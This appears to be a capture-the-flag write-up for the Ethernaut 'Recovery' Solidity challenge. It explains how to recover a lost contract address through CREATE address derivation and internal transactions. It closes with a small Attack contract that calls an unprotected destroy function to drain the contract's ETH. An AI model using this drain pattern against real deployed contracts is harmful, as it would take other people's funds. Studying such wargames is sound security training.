





## Challenge
### Description
A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.001 ether to obtain more tokens. They have since lost the contract address.
This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```
## Background

---

In Solidity, a contract can deploy another contract from inside, as in `new SimpleToken(...)`. The new contract is then created by the contract that executed `new`, not by the EOA that sent the transaction.
In this challenge, the deployer of `SimpleToken` is the `Recovery` instance address, not the player address. To find the lost token address, look at the contracts the `Recovery` instance created internally rather than at the player's transactions.

---

The address of a contract deployed with a regular `CREATE` is determined by the deployer address and the deployer's nonce.
```solidity
address = address(uint160(uint256(keccak256(rlp([sender_address, sender_nonce])))))
```
If you know the deployer address and its nonce at that point, you can recompute the created contract's address even if you never recorded it.
In this challenge it is simpler to read the `SimpleToken` address created by `Recovery` from the internal transactions on Sepolia Etherscan. Either way, the address comes from the context of the creating transaction.

---

`selfdestruct(_to)` is an opcode that sends the contract's ETH balance to `_to`. It used to delete code and storage as well, but in the post-Cancun EVM, `selfdestruct` on an existing contract no longer deletes code or storage and mostly just transfers the balance. Still, the Ethernaut completion condition is to recover or remove the `0.001 ether` from the lost contract, so it still works for this challenge.
## Code analysis

---

Tokens are created like this.
```solidity
contract Recovery {
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}
```
`generateToken` creates a `SimpleToken` but does not record the created address in a state variable or an event. So the token contract address looks lost.
But once `new SimpleToken(...)` has run, the contract creation is recorded on chain. You can recover the `SimpleToken` address by looking at the `Recovery` instance's internal transactions, or by computing the CREATE address from the `Recovery` address and nonce.

---

This is where the ETH goes.
```solidity
receive() external payable {
    balances[msg.sender] = msg.value * 10;
}
```
When `SimpleToken` receives ETH, it records a token balance. The `0.001 ether` in the description is the amount that went into the lost `SimpleToken` contract through this `receive`.
The ETH sits in `SimpleToken`, not in `Recovery`, so you need to find the lost `SimpleToken` address and drain the ETH from that contract.

---

Finally, `destroy`:
```solidity
function destroy(address payable _to) public {
    selfdestruct(_to);
}
```
`destroy` has no access check such as `onlyOwner`. Anyone can call it, and it sends the contract balance to the `_to` argument.
So the plan is to find the lost `SimpleToken` address and call `destroy(player)` on it.
## Solution
First, find the lost `SimpleToken` address. The `Recovery` instance's internal transactions show the address created by `new SimpleToken(...)`. To compute it yourself, derive the CREATE address from the `Recovery` address and nonce.


Then call `destroy(player)` on the `SimpleToken` address you found.

Since `destroy` has no access check, anyone can be the caller, and the remaining ETH is sent to the address passed as the argument.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    address public target;

    constructor(address _target) {
        target = _target;
    }

    function attack() public {
        (bool ok, ) = target.call(abi.encodeWithSignature("destroy(address)", payable(msg.sender)));
        require(ok);
    }
}
```

After the call, the ETH in the token contract is gone.

